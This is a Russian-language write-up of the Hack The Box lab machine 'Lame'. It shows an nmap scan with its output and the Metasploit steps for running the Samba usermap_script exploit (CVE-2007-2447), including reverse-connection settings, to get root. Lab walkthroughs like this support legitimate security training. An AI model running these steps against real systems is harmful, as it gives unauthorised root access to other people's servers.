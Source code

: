 # 🟢 Lame (Linux, Easy)

###

![](<../../../../.gitbook/assets/1 (1) (1) (1) (1) (1).png>)

### Содержание:

Я считаю, что это самая простая машина на HTB, так как для ее прохождения потребуется только один эксплоит. Для начала мы просканируем порты с дефолтным nmap-скриптом. Затем, запустим метасплоит и найдем эксплоит для Samba версии 3.0.20(CVE-2007-2447). После того, как эксплоит отработает мы получим сразу рут-доступ.

### Сканируем порты с помощью nmap:

```
$ nmap -sC -sV -Pn 10.10.10.3 -oN nmap
```

```
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.16.43
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2022-01-30T12:13:06-05:00
|_smb2-time: Protocol negotiation failed (SMB2)
|_clock-skew: mean: 2h35m41s, deviation: 3h32m09s, median: 5m40s
```

Используем флаг -Pn для принудительного сканирования портов, так как без него nmap считает, что хост "лежит".

### Ищем эксплоит в metasploit:

Теперь в метасплоите мы можем посмотреть эксплоиты для самбы версии **3.0.20**:

```
$ msfconsole
msf6 > search 3.0.20
```

Используем данный эксплоит:

```
exploit/multi/samba/usermap_script 2007-05-14 excellent    No    Samba "username map script" Command Execution
```

### Запускаем эксплоит и получаем рута:

```
msf6 > use exploit/multi/samba/usermap_script
```

Настраиваем так:

![](<../../../../.gitbook/assets/2 (1) (1) (1) (1).png>)

**RHOSTS** - удаленная машина, которую будем атаковать

**RPORT** - не меняем, он правильно выставлен

**LHOST** - свой айпи, можно узнать через:

```
$ ip r
```

**LPORT** - свой порт, который еще не занят, например, 9999.

```
msf6 exploit(multi/samba/usermap_script) > exploit
```

![](<../../../../.gitbook/assets/3 (1) (1) (1).png>)
